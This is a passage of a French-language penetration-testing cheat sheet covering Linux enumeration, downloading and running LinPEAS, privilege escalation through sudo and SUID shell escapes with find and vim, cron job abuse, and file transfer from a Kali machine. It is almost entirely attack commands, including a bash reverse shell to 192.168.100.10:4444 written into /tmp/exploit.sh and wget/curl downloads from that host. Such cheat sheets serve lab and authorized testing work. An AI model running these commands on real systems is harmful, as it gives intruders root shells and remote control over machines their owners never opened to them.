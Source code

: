 ```bash
cat /etc/group
```

### LinPEAS - Script d'énumération automatique

```bash
# Télécharger LinPEAS
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

# Exécuter
chmod +x linpeas.sh
./linpeas.sh

# Exécuter et sauvegarder
./linpeas.sh | tee linpeas_output.txt
```

### Escalade de privilèges - Techniques courantes

```bash
# Sudo avec NOPASSWD
sudo -l
sudo /usr/bin/find . -exec /bin/sh \; -quit

# SUID binaries exploitation
# Exemple avec find
find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null
/usr/bin/find . -exec /bin/sh -p \; -quit

# Exemple avec vim
vim -c ':!/bin/sh'

# Cron jobs exploitation
cat /etc/crontab
echo 'bash -i >& /dev/tcp/192.168.100.10/4444 0>&1' > /tmp/exploit.sh
chmod +x /tmp/exploit.sh
```

---

## 📡 Transfert de Fichiers

### De Kali vers la cible

```bash
# Python HTTP server (sur Kali)
python3 -m http.server 8000

# Sur la cible, télécharger
wget http://192.168.100.10:8000/file.txt
curl http://192.168.100.10:8000/file.txt -o file.txt
```
